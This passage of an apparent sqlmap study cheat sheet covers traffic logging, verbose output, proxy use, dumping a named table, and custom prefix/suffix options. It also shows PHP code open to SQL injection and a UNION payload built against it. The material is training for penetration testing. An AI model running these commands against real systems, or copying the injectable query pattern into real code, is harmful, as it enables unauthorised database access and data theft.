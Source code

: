 ```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```
## Verbose Output

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

## Using Proxy

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --bash --proxy http://127.0.0.1:8080
```

# Attack Tuning

## Tables

You can utilize the `-T` argument to specify a table to dump

```bash
sqlmap -u "example.com?id=1" -T flag5 --batch --dump
```
## Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.  
For such runs, options `--prefix` and `--suffix` can be used as follows:

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in an enclosure of all vector values between the static prefix `%'))` and the suffix `-- -`.  
For example, if the vulnerable code at the target is:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

The vector `UNION ALL SELECT 1,2,VERSION()`, bounded with the prefix `%'))` and the suffix `-- -`, will result in the following (valid) SQL statement at the target:

Code: sql

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

## Level/Risk
